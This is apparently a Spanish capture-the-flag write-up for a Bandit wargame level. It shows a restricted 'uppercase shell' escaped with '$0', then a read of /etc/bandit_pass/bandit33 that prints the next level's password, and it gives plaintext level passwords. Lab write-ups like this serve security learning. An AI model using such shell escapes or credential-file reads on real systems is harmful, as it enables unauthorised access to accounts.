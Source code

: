 ## Objetivo
After all this stuff, it’s time for another escape. Good luck!`git`
## Datos de acceso al nivel

* Username = bandit32
* password = 3O9RfhqyAlVBEZpVb6LYStshZoqoSx5K
## Solucion
````bash
WELCOME TO THE UPPERCASE SHELL
>> ls
sh: 1: LS: Permission denied
>> $0
$ ls
uppershell
$ whoami
bandit33
$ cat /etc/bandit_pass/bandit33
tQdtbs5D5i2vJwkO8mEyYEyTL8izoeJ0
$
````
## Notas adicionales
- `$0` se ha usado para invocar el shell por defecto, que ha permitido ejecutar comandos normales como `ls`.
## Referencias
